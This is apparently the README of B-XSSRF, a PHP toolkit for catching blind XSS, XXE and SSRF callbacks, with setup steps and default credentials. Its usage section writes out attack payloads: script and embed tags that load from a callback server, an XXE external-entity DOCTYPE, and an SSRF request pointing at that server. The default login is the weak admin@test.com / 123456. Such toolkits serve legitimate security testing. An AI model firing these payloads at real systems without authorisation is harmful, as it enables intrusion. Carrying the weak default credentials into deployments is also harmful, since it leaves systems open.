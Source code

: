 <h1 align="center">
  <br>
  <a href=""><img src="https://github.com/SpiderMate/B-XSSRF/blob/master/img/icon.png" width="70" height="70" alt="B-XSSRF"></a>
  <br>
  B-XSSRF
  <br>
</h1>

<h4 align="center">Toolkit to detect and keep track on Blind XSS, XXE & SSRF</h4>

<p align="center">
  <a href="https://github.com/SpiderMate/PS-Ducky/releases">
    <img src="https://img.shields.io/badge/release-v1.0-blue.svg">
  </a>
  <a href="https://github.com/SpiderMate/PS-Ducky/issues">
    <img src="https://img.shields.io/badge/issues-0-red.svg">
  </a>
    <a href="https://github.com/SpiderMate/PS-Ducky/issues">
    <img src="https://img.shields.io/badge/php-5-green.svg">
  </a>
</p>

<img src="https://github.com/SpiderMate/B-XSSRF/blob/master/img/dashboard.png" alt="B-XSSRF">

### SETUP
- Upload the files to your server.
- Create a Database and upload <b>database.sql</b> file to it.
- Change the <b>DB Credentials</b> in <b>db.php</b> file.
- Ready.

### USAGE
BLIND XSS 

```
<embed src="http://mysite.com/bxssrf/request.php">
<script src="http://mysite.com/bxssrf/request.php">
```
BLIND XXE

```
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://mysite.com/bxssrf/request.php"> %ext;
]>
<r></r>
```
SSRF

```
GET /testssrf.php=http://mysite.com/bxssrf/request.php

```
### DEFAULT CREDENTIALS
```
USER : admin@test.com
PASS : 123456
```
